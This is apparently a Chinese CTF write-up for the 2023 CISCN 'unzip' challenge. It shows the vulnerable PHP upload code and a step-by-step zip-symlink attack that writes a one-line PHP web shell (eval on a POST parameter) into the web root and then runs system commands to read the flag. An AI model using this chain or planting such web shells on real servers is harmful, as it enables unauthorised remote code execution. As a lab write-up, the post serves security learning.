 ```yaml
---
title: 2023CISCN初赛unzip
subtitle:
date: 2025-03-14T14:51:24+08:00
slug: efbed7c
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 玄机
categories:
  - 玄机
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/5585a1ceecf49a83a0a458dcacb1a6e4.png)



上传一句话文件木马，查看回显



![](images/9fcbb9588fb491783b296dbc1b7b829c.png)



放行看一下回显

``` Php
<?php   
error_reporting(0);   
highlight_file(__FILE__);
$finfo = finfo_open(FILEINFO_MIME_TYPE);   if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
//确保上传文件类型是zip
        exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
//将上传的zip文件解压到/tmp目录
};      
//only this!
```

`finfo_file`函数检查文件类型，确保上传的文件类型为`zip`，然后将上传的zip解压到`/tmp`目录。
想了一下，如果我们直接上传，那么就会被解压到`/tmp`处，这样我们无法利用蚁剑或者进行命令执行。`软连接`可以达到我们的要求
[Linux 软链接——ln命令详解_ln -s-CSDN博客](https://blog.csdn.net/annita2019/article/details/105481449)

```
//创建一个新的文件夹
mkdir unzip
cd unzip

//创建软连链接
ln -s /var/www/html slink
//slink相当于/var/www/html

//压缩
zip --symlink slink.zip slink

//删除slink，再新建slink文件夹
mkdir slink

//进入slink文件夹，创建shell.php，写入一句话木马
cd slink
echo '<?php eval($_POST['t']);?>' > shell.php

//退到unzip文件夹，并将slink文件夹压缩
cd ..
zip -r slink1.zip ./slink/*
```

依次将`slink`和`slink1.php`上传，然后访问`shell.php`



![](images/dfcccef503edaedca3f374b47f617c70.png)



正常访问，上传解压成功，进行命令执行，利用POST传参

```
t=system('ls /');
t=system('cat /flag');
```



![](images/7731dd6f7a4220004a0dfd03bc413eb2.png)



![](images/a332985e46811a02b5899649af993697.png)

